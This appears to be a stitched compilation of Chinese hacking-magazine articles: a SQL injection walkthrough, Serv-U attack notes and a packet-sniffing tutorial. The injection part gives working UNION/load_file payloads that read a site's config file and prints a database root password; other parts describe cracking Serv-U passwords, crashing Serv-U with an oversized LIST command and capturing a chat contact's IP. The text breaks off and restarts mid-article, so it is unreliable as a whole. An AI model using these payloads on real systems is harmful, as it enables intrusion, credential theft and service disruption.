输入 `http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,load_file(char(100,58,47,119,101,98,47,104,101,105,98,97,105,47,118,105,112,47,97,114,116,105,99,108,101,47,105,110,99,108,117,100,101,47,99,111,110,102,105,103,46,105,110,99,46,112,104,112)),13,14,15,16,17,18,19`

结果如图 44。


显示了很多好东西：

```php
$dbhost = "localhost"; // 数据库主机名
$dbuser = "root"; // 数据库用户名
$dbpass = "234ytr@u"; // 数据库密码
$dbname = "article"; // 数据库名
$mcms_user_table = "user";
$mcms_usergroup_table = "usergroup";
$mcms_userrace_table = "userrace";
```

表还是默认的表，而且出来了 root 的密码。要是能连上它的 MySQL 该多好啊，那样我们就可以 into outfile 了。找了找 phpmyadmin，没有找到，或许根本就没有用。读 `c:/winnt/php.ini` 发现：

```ini
; Magic quotes
; Magic quotes for incoming GET/POST/Cookie data.
magic_quotes_gpc = On
```

痛苦中，我们看看能不能搞几个会员账号。猜测会员账号放在 user 表中，我们直接读 data 下 article 文件夹里的 `user.myd` 文件，`article/user.myd` 转换成 `char(97,114,116,105,99,108,101,47,117,115,101,114,46,109,121,100)`。我们输入 `http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,load_file(char(97,114,116,105,99,108,101,47,117,115,101,114,46,109,121,100)),13,14,15,16,17,18,19`，结果如图 45 所示。

晕死！竟然没有返回。我们来读 `article/user.frm`。提交：`http://www.xxxx.net/down/show.php?id=5403%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,load_file(char(97,114,116,105,99,108,101,47,117,115,101,114,46,102,114,109)),13,14,15,16,17,18,19`

晕了，表结构都在，而且读 `article/user.myi` 时也成功，可是为什么 `article/user.myd` 读不出来呢？要是 `magic_quotes_gpc = Off` 我们还可以 into outfile 看看，可是……郁闷中，测试就这样结束吧！下面的工作还是留给读者朋友们来完成吧！文中所述问题已经通知星了！

## 六、PHP + MySQL 注入攻击的防范

在上一期的专题里已经讲了很多的防范方法，这里我就主要讲一下 PHP+MySQL 注射攻击的防范方法。

大家看到，在 `magic_quotes_gpc = On` 时，很多的注射攻击已经没有作用了。我们可利用这个来加固程序。`addslashes()` 函数等同于 `magic_quotes_gpc = On`，而且与 `magic_quotes_gpc = On` 也不冲突，我们可以这样在程序中过滤：

```php
$username = addslashes($username);
$query = "SELECT * FROM users WHERE userid='$username'";
```

对于 id 型我们可以利用 `intval()` 函数，`intval()` 函数可将变量转换成整数类型，具体代码如下：

```php
$id = intval($id);
$query = "SELECT * FROM alphaidb WHERE articleid='$id'";
```

如果是字符型呢？我们可先用 `addslashes()` 过滤一下，然后再过滤 “%” 和 “_”。例如：

```php
$search = addslashes($search);
$search = str_replace("_","\\_",$search);
$search = str_replace("%","\\%",$search);
```

或者是：
```php
$Passwd = md5($HTTP_POST_VARS["passwd"]);
$Username = md5($HTTP_POST_VARS["username"]);
```

不过要记住：千万别在 `magic_quotes_gpc = On` 的情况下替换 “\” 为 “\\”，如下：`$password=str_replace("\\","\\\\",$password)`。我记得在 darkness 的文章“对某 PHP 站点的一次渗透”中提到过这个问题（在光盘中有收录）。还有就是登陆的地方，如果是只用一个管理员管理，我们可直接对 username 和 passwd 用 md5 加密，这样就不用害怕注入技术的发展了。

我的后台登陆就是这样子的！
本文就讲这么多了，注入是一门灵活的技术，有很多技术还在继续发展中，同时欢迎大家对本文给予批评与指正。

> （为便于大家学习，本文用到的以下内容光盘有收录：文章“Apache+PHP+MySQL 的安装与配置”、文章“对某 PHP 站点的一次渗透”、php.ini 中文版、作者的文章系统 alpha.rar、文章系统的测试版 site.rar、mysql 和 php4 中文手册、16 进制/ASCII 转换器）


## 一、SERV-U本地暴力破解漏洞

> 涉及程序版本：
> Serv-U FTP Server v3.0 及其以上版本所有版本

其实，Serv-U 3.0 以下版本的密码是没有加密过的，但厂商后来考虑到安全性就进行了简单的加密，虽然密码是不可逆，但也是可以暴力破解的。不过这里要注意的是只有权限在系统管理员以上的用户才能远程登陆管理，也就是说我们必须破解 INI 文件里用户必须是系统管理员（Maintenance=System）或域管理员（Maintenance=Domain）用户。好了，关于怎么拿到这个加密过的密码，X 已经多次讲过了，不再重复。首先必须有解密的工具，这里强烈推荐 Serv-U PassCrack v1.0 就可以搞定了。解压完后，先右键点击 MD5.wsc，分别点中“通用类型库”和“注册”，完毕后进入 CMD，输入格式为：

```cmd
cscript crack.vbs 加密的密码
```

这样 VBS 就会自动把 dict.txt 的密码加密后再跟破解的密码对比，如果你有更好的字典，就把它拷贝到 crack.vbs 的同目录下，替换 dict.txt 就可以了。

## 二、Serv-U FTP Server 远程拒绝服务漏洞

这个漏洞是 ISNO 发现的，涉及 Serv-U FTP Server v4.0.0.4 及其以下版本。如果 Serv-U 匿名用户登陆后，发送 LIST NNNN... 命令（N>=253 字节）服务端报错，并且错误对话框无法关闭，只能重启 Serv-U FTP 服务才行。当目标主机允许匿名登陆的时候，摧毁 Serv-U 就管它咯！

Serv-U 是款在网络上广泛使用的 FTP 软件，一直以其强大的功能、稳定的性能深得广大朋友的喜爱。但最近 Serv-U 接连曝出的几种漏洞似乎影响了它目前在大家心目中的形象。本篇是我看了最近几个 Serv-U 的漏洞后对它进行的一次详细分析报告！希望能对大家有所启发！

首先，我们从 Serv-U 的远程执行开始谈起。根据《黑客 X 档案》2003 年 12 期上的《Serv-U FTP Server 远程／本地提升权限缺陷》我们可知道，只要取得一个有远程执行权限的 FTP 账号，就可在系统中添加一个用户，并能提升为超级用户。那这是为什么呢？现在我们来从头看看 Serv-U 的整个运行机制。

### Serv-U 运行机制

由于 Serv-U 安装时要加入系统服务，所以必须由具有 Administrator 权限的用户来安装。一旦安装完成后，ServUDaemon.exe 将会被加入系统服务，当服务器重启后，Serv-U 的服务将会自动运行。

**注意：** 这时候 ServUDaemon.exe 被赋予的是 SYSTEM 的权限。

当远程用户登陆 FTP 时，实际上都继承了 SYSTEM 的权限。但用户如果不能运行任意执行文件，还不能对系统构成危害。不过 ServUDaemon.exe 本身也有一套机制，在 Serv-U 中如果用户登陆后开放了远程执行功能，此时相当于用户继承了 ServUDaemon.exe 的 SYSTEM 权限，所以用户可以随意调用能够接触到的系统文件并执行。如果用户能接触到 NET.EXE 或用户自己上传一个 NET.EXE，就能利用远程执行功能成功添加一个系统用户。

好了，看了上面一大堆话，大家是否觉得有点厌烦了？现在我们就要进入正题了。利用 Serv-U 来提升权限时必须先要有一个具有远程执行权限的账号，那么这个账号怎么取得呢？这里要感谢 EYAS，在一次和他的聊天中得知 Serv-U 有个内置账号，该账号具有 Serv-U 的绝对权限。鄙人的时间是有限的，知道这个思路后，接下来的实践就要靠自己了。

先整理一下思路，账号的作用无非就是登陆；既然是登陆就必须有登陆的端口，有了端口以后就要发送数据，发送的数据里肯定包含了内置账号和密码。看来先要从登陆的端口扫起。这里还有一个问题，那就是谁是客户端来登陆，谁是服务端接入服务。

进行详细的讲解。

一个关于 Ethereal 的小 bug（偶然发现的）：使用 Ethereal，在 Windows 下无法直接打开中文目录下的 sniffer 结果（因为 Ethereal 对中文目录不支持——无法显示），但可以通过在 sniffer 结果上使用右键，选择打开方式强制使用 Ethereal 打开，不过，bug 就出现在这里。这样打开中文目录下的 sniffer 结果后会无任何异常反应，但如果在当前情况下，选择 “File” 菜单的 “Open” 按钮后，会发现弹出一个 cmd 窗口，上面写着（图 6）：

```
ethereal.exe:1568): Gtk-CRITICAL **: file gtkfilesel.c: line 729
(Gtk_file_selection_set_filename): assertion `is_not_utf8 (filename)' failed
```

看起来，这和 Ethereal 对中文目录的支持性有关。


图 6

## 二、分析数据

分析数据时，你必须具有三个素质：清醒的头脑、足够的耐心、熟悉甚至可以说是精通 TCP/IP 协议栈。

分析数据三步走：

### 第一步：分析协议

首先，当我们打开一个 sniffer 结果时，最先看到的应该是协议，而且，建议先看的也是协议。我们可以通过协议来对需要的数据进行简单的手工筛选（注：现在的 sniffer 都有自动筛选功能，不过，本人不太习惯使用那些东西）。

例如，我们经常被人使用 ping 来进行探测，那么，当我们使用 sniffer 想查明谁在对我们 ping 的时候，面对嗅探到的结果，我们应该选择的是 ICMP 协议。对于这部分，一般来说，即使你当前头脑混乱而且也很烦躁，只要对 TCP/IP 有一定的了解，那么，这一些也是能轻松完成的。

如果你对协议无法区分怎么办？呵呵，恶补一下吧。我给出几种常见的协议和一些与之对应常见的应用程序，希望对大家有点帮助：

| 协议 | 应用程序或解释 |
|---|---|
| TCP | 很多程序都会用到 TCP 的，无法一一列举； |
| IP | 哈哈，这是一个玩笑，因为有人曾经问过：在 sniffer 中是否会嗅探到 IP 协议的数据包。所以，我在这里写出来，并且告诉大家，在使用 TCP/IP 协议传输的网络上我们所 sniffer 到的包都是 IP 数据包。因为，在 TCP/IP 协议中规定了数据要使用 IP 封包，这同样是由于 TCP/IP 中规定了数据的路由就是使用 IP 路由，所以在 sniffer 的协议一栏上，不可能都会看到 IP，如果看到了的话，呵呵，完了，你用了一个好烂的 sniffer； |
| UDP | 一个非面向对象的、不可靠的传输协议。一说到 UDP，不用我废话，大家一定会想到 ICQ 和 QQ 了； |
| ICMP | ping、tracert、pathping、路由重定向等； |
| ARP | 在局域网中，所有的通信都是基于 MAC 的。因此，在局域网中如果主机 A 想与主机 B 通信，必然需要使用 ARP 解析协议来获得主机 B 的 MAC 地址，正因为如此，我们看到的使用 ARP 协议的数据一般来说都应该是广播（在 sniffer 中会被标记上 BROADCAST 字样）； |
| RARP | ARP 的作用是解析 MAC 地址，而 RARP 当然就是反过来了。一般地，两种协议会同时出现，而且意义均为广播（BROADCAST）； |
| HTTP | 很熟悉的东西了，我们使用的 Web 浏览器都要使用 HTTP 协议，例如 IE； |
| NBT | NBT 就是 NetBIOS over TCP/IP。在 Windows 网络中，NBT 常常用来查询主机信息。例如，主机名、主机共享信息等，而 NBT 在查询主机时，使用的往往是广播，所以，在 sniffer 中使用 NBT 协议的那条数据往往也会被标记上 BROADCAST 字样； |
| IPX | 知道 TCP/IP 的人应该也会知道 IPX/SPX 吧！也是一种开放式协议，只是不像 TCP/IP 这样被使用得如此广泛。但在一些局域网中，IPX/SPX 使用得还是比较普通的； |
| NBIPX | 和 NBT 很像，我们可以说是 NetBIOS over IPX/SPX 吧，主要在查找使用 IPX 协议的主机名时使用，一般也以广播的形式出现； |
| SMB | SMB = Server Message Block，简单说，就是一个文件、设备共享时使用的协议，还记得前段时间我们谈的 SMB 会话劫持吗？去看看吧，那会对你很有帮助的（参见 2002 年第 6 期《SMB 会话劫持原理篇》）； |
| SAP | 叫做“服务公告协议”，一般来说，在 Windows 网络中偶尔会有出现。因为，这是 Windows 的 NWLINK（简单说来，就是 Windows 下的 IPX/SPX 协议）协议在定位服务器时使用到的东西，而且，经实验，一般情况下只有 Windows 的网络监视器才会嗅探到（注意：我只是说一般情况下，而并非绝对！）； |
| IGMP | 组播协议（经常有人要求叫它多播协议，都是一样的），使用 IGMP 可以实现在线视频观看，但相对其他技术来说，该技术是比较难实现的，所以应该少有人用。对于一些支持 IGMP 的设备，它们会经常发送 IGMP 信息以确认自己的组员。另外，对 Win9x 系统来说，在没打补丁的情况下，可以使用 IGMP 攻击使其蓝屏； |
| RPC | 曾几何时……（众人昏），这是个很难见到的协议，虽然说 RPC 无处不在，但是，被 sniffer 直接抓到的机会并不多。如果只是大家有条件的话，做一个 kerberos 的验证过程（最简单的实现方式就是 win2k 主机登录 win2k 主机的域过程了），并使用微软的网络监视器进行 sniffer（其他 sniffer 我没试过，不敢保证），这样就会抓到以该协议进行传输的数据包了。关于 RPC，具体的俺也没有研究过，目前只能提供这么多线索了； |

呵呵，简单说了说一些常见协议，不过我感觉对 sniffer 分析来说，已经比较全面了。识别 sniffer 结果中大致地就是这些了。至于具体的分析，我们下面会讲，不要急，先继续我们的基本功讲座。除了协议外，我们还有一些很容易直观获得的信息，那就是 IP（或 MAC）地址和端口号。针对特定的主机或针对特定的端口作分析时，如果能注意到这两条信息，会非常有用！

另外，很多 sniffer 软件还会给出一些摘要信息，根据这些信息，可以帮助我们在大量相同协议的数据中选取需要的数据部分。关于这一点，在实例中将有体现，这里就不作过多阐述。下面看一下图 7，这里我们可以看到一些端口信息。


在细节列表中，我们可看到关于源和目的端口这样两条信息：

> TCP：Source Port = 0x046B  
> TCP：Destination Port = Hypertext Transfer Protocol

注意这两条信息，这里说的就是源端口（Source Port）和目的端口（Destination Port）。源端口为 0x046B，可以看出，这是一个十六进制的数值，折算为十进制后其值为 1131，那就是说，源端口为 1131。而目的端口呢？后面写的是 “Hypertext Transfer Protocol”，呵呵！不知道大家看到它有没有印象呢？扪心比较一下，哈哈，HTTP 不就是它的缩写么，这就说明了目标端口是 HTTP 端口。呵呵，不用说也知道是多少了吧！

OK！到此为止，第一步分析协议这部分就先简单说这些了。到目前为止，我们应该可以大致获得要分析的目标了，接下来我们还需要再深入。

### 第二步：分析数据

- 1. Ethernet —— 这部分是以太网的包头，是必不可少的；
- 2. IP —— 在 TCP/IP 的网络中，使用的是 IP 路由，因此，如果没有 IP 协议的封装，数据报将无法被路由，从而无法到达正确的目的地；
- 3. 变化段 1 —— 这一段是不定的，其包类型决定于该数据承载何种数据包，例如，一个 ping 过程的 sniffer 结果中，在这部分中就是 ICMP 数据包；
- 4. 变化段 2 —— 这段内容多半是 HTTP，在使用 TCP 传输的 web 请求和回应过程中，除了“变化段 1”外，“变化段 2”往往就是 HTTP 数据（图 8）。

以上只是针对普遍情况来说的。对很多协议来说，这个结构并不适合套用。例如，前面说过的 NBT，如果我们抓到了一个 NBT 的主机名查询过程的话，其结构应该是这样的（图 9）：

图 9 简单描述了一个在局域网中使用 NBT 协议来查询主机名（在局域网中，这个过程几乎每一秒都在发生，是很常见的）时被捕获的数据包的结构。从协议类型上，可将这个数据包分为四个部分，分别是：Ethernet 头、IP 报头、UDP 数据报和 NBT 数据报，在一个数据包中，四个部分的功能也是不同的：

| Ethernet 头 | IP 报头 | UDP 数据报 | NBT 数据报 |
|---|---|---|---|

图 9

- 1. Ethernet 头：在目前的局域网中，局域网的类型都被定义为 IEEE 802.3，该标准由最早的以太网（Ethernet）而来。
- 2. IP 报头：和 Ethernet 头部类似，在以太网中，为了能完成传输，所以数据包要有个 Ethernet 头部。而在 TCP/IP 的网络中，为了能完成数据包的路由，数据包中必须有一个 IP 报头；
- 3. UDP 数据报：在局域网里主机名字的查询过程中，我们都知道，使用的是 NETBIOS，而 NETBIOS 其开放端口为 TCP 139 和 UDP 137、UDP 138，在进行主机名字查询的过程中，使用的主要是 UDP 协议而并非 TCP 协议，而在 UDP 中，最常用的应该是 UDP 137 端口，通过 UDP 137 端口来完成名字查询的过程；
- 4. NBT 数据报：作为一个 NBT 数据包，NBT 的数据部分当然必不可少。这部分数据主要是装载一些具有 NBT 自身特性的东西，例如，在其中可能会包含一个 NBT 的标志段，还有传输过程中 NBT 特有的 ID 号等。

当然，其他一些特殊协议可能也会出现更稀奇古怪的分段结构，我就不一一列举了，大家看到的时候细心些，就不难发现其结构了。

说了半天，都是理论，看一个实例。这里给出图 10（由于需要，只截取了细节部分，其他部分没有截取），仔细看：

> Frame 13  
> Ethernet II  
> Internet Protocol  
> Transmission Control Protocol  
> Hypertext Transfer Protocol


这里给大家解释一下（该 sniffer 结果为 Ethereal 的嗅探结果）：

Frame 13：这个在 Ethereal 中其实就相当于一个标号，我们可以认为这是 Ethereal 启动后 sniffer 到的第 13 条数据信息，就数据分析来说，是没有什么作用的；

Ethernet II：以太网包头。Internet Protocol: IP 封装数据；Transmission Control Protocol: TCP 报头内容；Hypertext Transfer Protocol: HTTP 协议传输的内容；

从结构上来看这是一个典型的 HTTP 传输过程：
以太网包头是为了保证数据在局域网中能够被识别并被传送；
而 IP 报头则是为了能让数据包在 TCP/IP 网络上被路由；
TCP 报头则是用来保证数据被准确而且正确地送至目的地；
HTTP 协议则是承载了我们的 HTTP 请求和我们看到的结果——web 页面。

从大体结构上来看，第二步的分析就是这么简单。如果说第一步是为了让我们从全部数据中找到分析对象的话，那么，第二步则是从我们已找到的分析对象中，再进一步的深入查找具体的需要分析的数据段。如此一步步走下来，可以确保我们的分析对象的正确性，从而避免不必要的时间上的和物质上的浪费。不多说废话了，大家不要走开，广告之后，马上回来，进行我们最最……精彩的……

### 第三步：解剖数据

我们已经了解了分析对象，并能在被分析对象中找出我们需要分析的更具体、范围更小的一个对象，那么接下来呢？当然是把范围缩到更小、更对……直到得到想要的结果为止。在这部分，我们需要一个实例，这样可以通过实例分析来更好地学习这一步。这里，我们选取一个平时最常见的也是很典型的实例进行分析，那就是 HTTP 协议的一个从服务器端到客户端的回应过程（图 11）：


```
Frame. Base frame properties
ETHERNET: ETYPE = 0x0800 : Protocol = IP : DOD Internet Protocol
IP: ID. = 0x6867, Proto = TCP, Len: 576
TCP: .A...., len:536, seq:441682101-441682637, ack:2793268882, win:16277, src:80 dst:1430
HTTP: Response (to client using port 1430)
```

其中，“Frame”是个标志性的信息，没有什么太大的意义；“ETHERNET”和“IP”的作用类似，一个是为了能在以太网中完成传输，一个是为了能让 TCP/IP 网络中完成传输。对任何一个数据，除非想要获得 MAC 或是 IP 地址，否则，这两个数据段内的数据没有太大的价值。我们需要分析的是 TCP 和 HTTP 两个数据段内的数据。首先来看 TCP 段，在第二栏细节中双击打开，获得一个详细列表（图 12）：


```
TCP: Source Port = Hypertext Transfer Protocol
TCP: Destination Port = 0x0596
TCP: Sequence Number = 441682101 (0x1A5388B5)
TCP: Acknowledgement Number = 2793268882 (0xA67DE692)
TCP: Data Offset = 20 (0x14)
TCP: Reserved = 0 (0x0000)
+TCP: Flags = 0x10 : .A....
TCP: Window = 16277 (0x3F95)
TCP: Checksum = 0xD7F8
TCP: Urgent Pointer = 0 (0x0)
TCP: Data: Number of data bytes remaining = 536 (0x0218)
（其中头部带加“+”的部分表示该段内有多个子数据段）
```

- **Source Port = Hypertext Transfer Protocol**，这行的意义很明显，是用来标识源端口的，Hypertext Transfer Protocol 当然就说明了源端口是 HTTP 端口，默认为 80；
- **Destination Port = 0x0596**：这一行则说明目的端口，这是十六进制形式，我们将其转换为十进制后其值为 1430；
- **Sequence Number = 441682101 (0x1A5388B5)**：TCP/IP 协议对此有定义，是 TCP 传输中产生的序列号，关于这部分的具体内容请已参阅一些 TCP/IP 资料或书籍；
- **Acknowledgement Number = 2793268882 (0xA67DE692)**：与上一行相似，这一行是用来标识 ACK 序列号的，ACK 序列号在 TCP 连接的建立和传输过程中很重要，关于这部分的具体内容请自行参阅一些 TCP/IP 资料或书籍；
- **Data Offset = 20 (0x14)**：数据偏移量，这个值用来标识数据的开始位置，这里的值是 20，那么，说明真正的数据是在第 21 字节（包括第 21 字节）开始的；
- **Reserved = 0 (0x0000)**：TCP 中的保留位，如果是使用 IPv4 的话，那么，这部分是有定义的，而且是强制性的定义，那就是该位必须全为 0；
- **Flags = 0x10 : .A....**：这是 TCP 的表示位，其中包含六个标志位，在网络监视器中，双击这一行打开它，可看到下面的六个标志位的情况（图 13）：


- TCP: ..0..... = No urgent data
- TCP: ...1.... = Acknowledgement field significant
- TCP: ....0... = No Push function
- TCP: .....0.. = No Reset
- TCP: ......0. = No Synchronize
- TCP: .......0 = No Fin

这里的六个标志位及其值的状况分别为：URG=0、ACK=1、PSH=0、RST=0、SYN=0、FIN=0。以上是六个标志位的设置情况，这里应该注意，这六位只是标志位，只有 0 和 1 两种值可以设置，如果被设置为 0 的话，表示无效，设置为 1 的话，表示有效。关于这部分，不可能花过多篇幅进行讲解，如果有不懂的地方，可以参考一些 TCP/IP 相关的资料和书籍。

其中，Window = 16277 (0x3F95)：TCP 窗口大小的值；Checksum = 0xD7F8：校验段，为了保证数据的正确性；Urgent Pointer = 0 (0x0)：当一个数据有很高的优先权并要求最先送到时，该位就会被设置为 1，否则为 0，这一部分与前面的 URG 位是一样的；Data: Number of data bytes remaining = 536 (0x0218)：这一部分则是数据部分了，这里面包含了传输的数据内容。

接下来，在窗口的 HTTP 段，双击打开获得列表（图 14）：


可以看到，只有一条：

> HTTP: Data: Number of data bytes remaining = 536 (0x0218)

这一条就是 HTTP 的数据内容，通过查看十六进制那一栏可以看到传输的数据内容，但由于传输过程并非明文，因此看了也得不到什么有价值的东西。

如果大家注意到的话，应该发现一点，比较一下 TCP 数据段中最后一部分和 HTTP 数据段中的这一部分：

> TCP: Data: Number of data bytes remaining = 536 (0x0218)
> HTTP: Data: Number of data bytes remaining = 536 (0x0218)

应该不难发现，其数据长度是相同的。其实，如果对 TCP/IP 和数据通讯有一定了解的朋友都应该知道，这里的两部分数据根本就是完全相同的，它们只是用两个不同的标志（TCP 和 HTTP）指向了同一个地方（这个地方就是指数据内容）。因为 HTTP 传输实际上就是 TCP 传输，只不过它有自己的一定的特殊位置而已。

以上是一个数据的数据部分的解剖过程（注意，这里并没有对数据的 Ethernet 和 IP 报头进行分析），这个方法对于从数据中获取信息是非常有用的（虽然从这个例子看来，我们什么也没有得到，但在一些特殊传输中，结合大量的相似信息，我们将得到很重要的东西）。

接下来，我们再对 IP 报头进行一下简单分析，因为这部分对于以获得 IP 地址为目的的人来说，是相当有用的。首先，还是双击打开以获得详细列表（仍以该 HTTP 过程为例），如图 15。这里包含的东西较多，就不一一详细解释了，我找一些较重要和一些我认为有用的地方来讲解：

Precedence = Routine：这一行表示其优先权的，Routine 表示其优先权是常规，一般来说，如果不是软件特别加上或是系统级的一些优先系统的话，该位都是设置为 Routine；

Time to Live = 113 (0x71)：这就是我们常说的 TTL 了；

Protocol = TCP - Transmission Control：这一部分说明该 IP 头下承载的是何种数据？这里是 TCP；


IP: Source Address = 202.102.201.78
IP: Destination Address = 211.*.*.107

上面两行一起来看，这两行是很明显的东西，一个是源地址，一个是目的地址。由于这是一个 HTTP 过程，因此，源地址肯定是一个站点的地址，而目的地址就是我的地址：211.*.*.107。

其他的一些就没有什么必要进行详细解释了，这里就先说这么多。到此为止，这一部分基本结束了。其实，到目前为止，如果你是一个毫无基础的新手，我还是不敢保证你可以完全解读一个 sniffer 的结果，而且，从第三部分中大致也应该不难看出，这里涉及到了相当多的 TCP/IP 知识。因此，基础是相当重要的。

说了好多，好多……，不过，如果没有实践的话，都是废话。所以，我们马上就开始最后一部分——实例分析篇；通过对众多的 sniffer 结果的分析，希望能给各位读者一点小小的启发。

## 四、实例分析篇

### 实例一：通过 QQ 捕捉对方 IP

特别鸣谢：怪狗（感谢狗狗配合偶做出这个实例）。

首先给狗狗发条消息：#$@$#¥$%`%^@卍!$!@卍!@^&*（少儿不宜，故省略五千字 ^_^////）。

然后，在对方没回复消息前，打开 Sniffer 并准备开始进行嗅探。等到对方回复短信后（以本地消息出现为信号，即 QQ 消息提示音出现后，即可视为消息已收到，但实际上来说，消息在此之前就已经收到了），停止 sniffer 的嗅探；然后立刻下线（嘿嘿，让狗狗那边去发晕吧）。

打开 sniffer 开始分析。首先，根据刚才我说的，第一步，我们先找出使用 UDP 协议进行传输的数据包（别问我为什么啊，如果大家连 QQ 使用 UDP 协议都不知道的话，那么我就只有……汗 ^_^////）。


这里，如果嗅探时间较长，相信很多人的 sniffer 中都会有大

# 主题乐园

大量的 UDP 信息。所以，为了能找到准确的信息，这里我们就要使用前面说过的每一行中带有的摘要信息，摘要信息中往往有该数据包中的关键字，同时，往往还会标明传输双方的端口号等关键信息。因此，我们就按此来查找（如果你的 sniffer 有过滤功能，可直接使用过滤功能来对捕捉到的数据包进行过滤，使其只剩下 UDP 协议的数据包，这样就容易查找多了）。经过查找，我找到了一连串的 Source Port 标记为 8000，而 Destination Port 标记为 4000 的信息（图 16）。

稍有了解的读者应该知道，这一连串的信息正是 QQ 产生的。只是其中的源地址的端口被标记为 8000，那么，很显然，这串信息的产生方为腾讯的 QQ 服务器（因为腾讯的 QQ 服务器使用的通信端口就是 8000）。通过 sniffer 查看这部分数据中任何一个数据包中的 IP 数据包，就可获得当前你所登录到的腾讯 QQ 服务器的 IP 地址和本机的 IP 地址（图 17）。

另外，通过查看 UDP 数据包中的数据部分，还可看到腾讯 QQ 服务器给你发送的信息（图 18）。只可惜，这些并非明文，只能从十六进制代码中看到一些杂乱无章的英文字母和一些特殊字符，并不能确定其内容是什么。

腾讯公司可能给我们发的也就是广告和一些确认信息了，而且，这部分并不是我们所关心的。所以，我们接着继续查找，直到找到这条信息（图 19）：

```
00087C129BFC LOCAL UDP Src Port: Unknown, (5000): Dst Port: Unknown (4000)
```

可以看到，这是由源端口 5000 到目的端口 4000 且使用 UDP 协议的一个数据包，在一些操作系统中，由于一些未知原因（主要是我不太清楚），QQ 使用的端口不是 4000 而是 5000（其实这并不奇怪，因为 QQ 在本地开服务器口时选择的范围就是 4000～8000）。因此，这条信息应该是狗狗给我回的消息了，我们接下来双击打开这条信息。

因为，我们需要获得对方的 IP 地址，因此，我们在这里需要查看的是 IP 段，而不是 UDP 数据包段。双击打开 IP 段的数据包，获取详细信息（图 20），分别获得这两行信息：

```
IP: Source Address = 61.*.*.127
IP: Destination Address = 211.*.*.107
```

这样，就应该能很清楚地看到怪狗的 IP 地址是什么了（上豆：哈哈，总算发现这家伙了，架设好人间大炮，目标狗狗的 IP，准备开火……），

```
PPP adapter WinPoET v2.51 Connection:

Connection-specific DNS Suffix  :
IP Address. . . . . . . . . . . : 61.*.*.127
Subnet Mask . . . . . . . . . . : 255.255.255.255
Default Gateway. . . . . . . . .: 61.*.*.127
```

上面是狗狗给我的 ipconfig 的结果，对比一下，结果完全正确，没有任何问题。

目前，很多版本的 QQ 已经完全可以实现 IP 地址的捕捉功能了，所以，相信使用 sniffer 获取 IP 地址对很多读者来说已经是没有意义的事了，但我还是希望各位能理解其中的原理，也许，下一个显示 IP 的 QQ 版本就是你制作的：）

## 实例三：ping 数据包分析

因为 ping 程序使用的是 ICMP 报文格式，所以，我们先来看一个标准的 ICMP 报文格式是什么样的（图 21）。

| 8位类型 | 8位代码 | 16位校验和 |
| :--- | :--- | :--- |
| 数据部分（根据不同的类型此部分会有不同的内容） | | |

接下来看我 sniff 到的结果。首先用 Ethereal 打开嗅探到的结果，数据太多，为了看起来方便，我做了一下过滤（图 22）。

> 在使用 Ethereal 的过滤功能时，应键入小写字母。例如，想过滤出 ICMP 报文的话，应填入 icmp，而并非 ICMP，否则会收到报错信息。

我们选中标有“Echo Request”这一标志的那行，然后来查看其内容，这里应该有三段有效内容，即：Ethernet 包头、IP 报文和 ICMP 报文。双击打开 ICMP 报文部分（图 23），对比上面的 ICMP 报文格式来看一下，从图中应该可以清楚地看到这个 ping 的格式是分为这几部分的：

| 类型段（8位） | 代码段（8位） | 校验码段（16位） | 标识符段（16位） |
| :--- | :--- | :--- | :--- |
| | | 序列号段（16位） | |
| 数据段（Windows 默认为 32 字节，可使用 -l 参数改变） | | | |

- 第一部分：Type 段，这里是标明 ICMP 报文类型的，这里的类型是 8；
- ICMP 协议有相关的规定，其类型 8 代码 0 即为 ping 的 “Echo Request” 报文，而且，在 IPv4 中，ICMP 在类型为 8 的时候，只有一个代码为 0 的定义。因此，从这些即可看出其数据包定为 ping 的 Echo Request 报文（注：关于“代码”和“类型”这些概念，请自行查阅 ICMP 相关资料）；
- 第二部分：Code 段，上面已经说过了，这部分就是代码段；
- 第三部分：Checksum 段，和上面说的那些 Checksum 一样，校验和；
- 第四部分：Identifier 段，标识符段，暂且理解为一个 ping 包的 ID 号；
- 第五部分：Sequence Number 段，序列号段（要和 Identifier 段的概念区别开）；
- 第六部分：Data 段，这里就是 ping 中发送的数据内容了，一般是没有意义的数据；

根据上面的分段介绍后，我们应该可自己画出 ping 的 Echo Request 请求的数据结构图（图 24）。

以上就是说 ping 的 Echo Request 的数据结构图，其实，ping 的 Echo Reply 其数据结构也正是这样的，只是一些部分的值改变了而已（例如类型段，Echo Reply 的类型是 0，代码也是 0）。

关于 ping 报文的结构我们已经了解了，接下来说一下 ping 中的 Identifier 段（即标识符段）。很多朋友应该在网上看到过一篇通过 ping 来判断主机类型的文章，这里我就做给大家看。

文章中主要是依靠主机发出的 ping 报文中的 Identifier 段的值来进行判断，因为 Windows 操作系统和 *NIX 操作系统所发出的 ping 报文的 Identifier 段的值是不同的。如果注意观察，就会发现，Windows 系统的 Identifier 值基本上是有规律可寻的，即其值一般为 128 的倍数，常见的有 256、512 和 768 三种值（在 sniffer 结果中，512 我见得最多，其他年限的值我还没见过）。而 *NIX 主机中的该值则根本毫无规律（后面我们会进行比较），这里再来看我抓到的这个 ping 的 Identifier 值（图 25），这里的值是 0x0200，不难看出，这是一个十六进制数值，将其转化成为十进制即可得到值 512。

好了，我再打开一个由 Linux 操作系统发出的 ping 报文时被我抓到的数据（图 26）。

在图 26 中可以看到 Identifier 值为 0xd152，将其转化为十进制 53586，是很大的一个值，这个值和计算机数据处理中的一些定值都没有什么关系。因此，如果在 sniffer 的过程中发现了 ping 报文中的 Identifier 值，可通过分析该值来简单判断发出 ping 报文的操作系统类型。

接下来说一下 ping 报文中的 Data 段（数据段）的问题。Windows 系统默认发出的 Data 长度为 32 字节长，而 Linux（借用别人的机器，我的是 RH Linux 9.0 的系统）默认是 56 字节。

